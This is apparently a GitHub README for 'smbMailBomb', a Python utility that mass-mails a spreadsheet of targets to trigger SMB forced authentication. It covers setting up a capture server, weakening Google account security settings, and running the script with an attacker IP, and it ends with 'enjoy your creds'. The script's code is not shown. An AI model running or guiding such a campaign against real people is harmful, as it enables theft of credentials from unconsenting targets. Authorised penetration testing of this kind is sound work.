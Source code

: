 # smbMailBomb
A command line utility to test for SMB Forced Authentication

#### Set Up Capture Server:
###### Ensure SMB ports 139 and 445 are open on your captuer server
###### Run your capture server.
#### Configure Google to allow the script:
######  In the Google Admin Panel:
######  Click Security
######  Enable Less Secure Apps
#### In the google account settings
######  Click Security
######  Allow Less Secure Apps
#### From the command line run smbMailBomb.py and enjoy your creds: 
##### Usage: python3 smbMailBomb2.py -e user@yourGoogleDomain.com -p yourGooglePassword -f path/to/targets.xlsx -ip captureServerIP
######  -f path to target xlsx file
######  -e your google business email
######  -p your google password
######  -ip your capture server IP
#### Requirments:
###### pip install -r requirments.txt
#### XLSX:
###### Add your targets first name and email, following the template provided.
